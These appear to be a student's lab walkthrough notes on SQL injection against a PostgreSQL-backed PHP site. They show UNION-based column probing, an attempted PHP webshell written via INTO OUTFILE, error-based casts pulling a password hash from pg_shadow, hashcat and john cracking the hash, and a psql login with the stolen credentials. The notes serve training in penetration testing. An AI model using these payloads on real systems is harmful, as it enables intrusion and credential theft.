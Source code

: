 - Browsing shows **class.php** and **contact.php** have form fields.
- Send their POST requests to Repeater 371-422 71-126 and test each parameter
	![](10.3.2.6ex_class.png)

- Given the error message (& a bit of googling), **order by** won't work.
- Test with **union select** & null entries to find column numbers
  ![](10ex_unionColumnTest.png)

- Attempt webshell via INTO OUTFILE
```sql
UNION SELECT null, "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/webshell.php"-- //

	-- Throws error
	:  pg_query(): Query failed: ERROR:  syntax error at or near &quot;&quot;/var/www/html/webshell.php&quot;&quot;
	LINE 1: ...['cmd']);?&gt;&quot;, null, null, null, null INTO OUTFILE &quot;/var/www/...
	 ^ in <b>/var/www/html/class.php
```
- URL encoding doesn't work

Considering the db is PostgresSQL, consulted [PayloadsAllTheThings PostgresSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-error-based) section for payloads.
- Eventually figured this out to return the password
- Need to cast the passwd to convert to type int (doesn't need '+'.  Space should work fine)
![](10.3.2.6ex_pw.png)
- Grab user name
```sql
union select null, null, cast(user as int), null, null, null from pg_shadow-- //
	-- rubben
```
- Grab database
```sql
union select null, null, cast(SELECT current_database() as int), null, null, null-- //
	-- glovedb
```

- Crack password (avrillavigne)
```bash
# hashcat
echo ae8c67affdb169a42c9631c02fc67ede > pw
hashcat -m 0 -w 1 pw

# john
echo rubben:ae8c67affdb169a42c9631c02fc67ede > pw
john --format=raw-md5 pw
```
- If having issues cracking, can try passing the hash directly as the pw

- Login
```bash
psql -h 192.168.226.49 -p 5432 -U rubben -d glovedb
	# it'll ask for password
```
